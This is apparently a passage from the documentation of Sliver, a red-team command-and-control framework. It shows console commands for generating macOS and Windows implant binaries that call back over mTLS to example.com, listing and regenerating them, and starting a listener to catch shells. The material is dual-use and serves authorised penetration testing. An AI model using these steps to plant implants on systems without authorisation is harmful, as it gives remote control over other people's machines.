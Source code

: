 Some commands/features may not work on "unsupported" platforms.

```
sliver > generate --mtls example.com --save /Users/moloch/Desktop --os mac

[*] Generating new darwin/amd64 Sliver binary
[*] Build completed in 00:00:09
[*] Sliver binary saved to: /Users/moloch/Desktop/PROPER_ANTHONY
```

The server will also assign code names to each generated binary i.e. `NEW_GRAPE.exe` you can rename the file to anything you need to, but these code names will still uniquely identify the generated binary (they're inserted at compile-time). You can also view all previously generated implant binaries with the `implants` command:

```
sliver > implants

Name                    OS/Arch        Debug  Format
====                    =======        =====  ======
CAUTIOUS_PANPIPE        darwin/amd64   false  EXECUTABLE
LATE_SUBCOMPONENT       windows/amd64  false  SHARED_LIB
RUBBER_PRINTER          windows/amd64  true   SHARED_LIB
RACIAL_SPECTACLES       darwin/amd64   false  EXECUTABLE
MATHEMATICAL_SASH       darwin/amd64   true   SHARED_LIB
MUSHY_TRADITIONALISM    windows/amd64  false  SHARED_LIB
SICK_SPY                darwin/amd64   false  EXECUTABLE
```

If you need to re-download a previously generated implant use the `regenerate` command, note that positional arguments (the implant name) comes after the command flags (e.g., `--save`):

```
sliver > regenerate --save /Users/moloch/Desktop NEW_GRAPE

[*] Sliver binary saved to: /Users/moloch/Desktop/NEW_GRAPE.exe
```

#### Additional Details

For addition details about each C2 please see:

- [HTTP(S) C2](/docs?name=HTTPS+C2)
- [DNS C2](/docs?name=DNS+C2)

## Getting Shells

Before you can catch the shell, you'll first need to start a listener. You use the commands `mtls`, `http`, `https`, and `dns` to start listeners for each protocol (remember endpoints specified with `--http` can connect to a `https` listener). You can use the `jobs` command to view and manage listeners running in the background. Listeners support both sessions and beacons callbacks:

```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   mTLS  tcp       8888
```
